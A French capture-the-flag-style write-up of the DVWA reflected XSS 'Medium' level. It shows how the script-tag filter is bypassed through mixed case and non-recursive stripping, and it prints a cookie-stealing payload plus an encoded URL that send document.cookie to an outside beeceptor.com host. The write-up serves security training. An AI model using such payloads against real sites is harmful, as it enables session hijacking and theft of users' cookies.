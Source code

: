 # Niveau "Medium"

Sur ce nouveau challenge, la saisie utilisateur est réfléchie de la même manière que précédemment :

![](../../../../.gitbook/assets/ba932021e36277aa4cd825067d134838.png)

On tente à nouveau de faire apparaître une `alert()` box :

![](../../../../.gitbook/assets/ed404ff1dd1f19a6d6b9943479e30a3d.png)

Les balises `<script>` et `</script>` semblent avoir été filtrées. Dans un premier temps, il nous faut tester des contournement simples :

![](../../../../.gitbook/assets/f6cf1af8363bd55fadfcf520ff55cc37.png)

Un mélange de minuscules/majuscules permet de contourner ce filtre. Une autre possibilité plutôt simple est de se dire que le filtre n'est sans doute pas récursif :

![](../../../../.gitbook/assets/106003e1f46f52ad2e1386f7ceb92745.png)

{% hint style="info" %}
On se rend compte également que seul l'occurrence `<script>` est filtrée, aucune modification ne semble être effectuée sur l'occurrence `</script>`
{% endhint %}

Notre payload malicieuse de vol de cookie n'est donc que légèrement modifiée pour ce niveau :

```javascript
<sCriPt>document.write('<img src="https://dvwaxssrefl.free.beeceptor.com?cookie=' + document.cookie + '" />')</script>
```

![](../../../../.gitbook/assets/16f6d68c0203b9d54e7cae65693297f8.png)

Soit l'URL :

```http
http://192.168.56.203:8080/vulnerabilities/xss_r/?name=%3CsCriPt%3Edocument.write%28%27%3Cimg+src%3D%22https%3A%2F%2Fdvwaxssrefl.free.beeceptor.com%3Fcookie%3D%27+%2B+document.cookie+%2B+%27%22+%2F%3E%27%29%3C%2Fscript%3E#
```

Lorsque la victime visitera note lien, ses cookies seront envoyés sur notre serveur malicieux :

![](../../../../.gitbook/assets/abcaf86471b00b078e755197a1f46d7b.png)

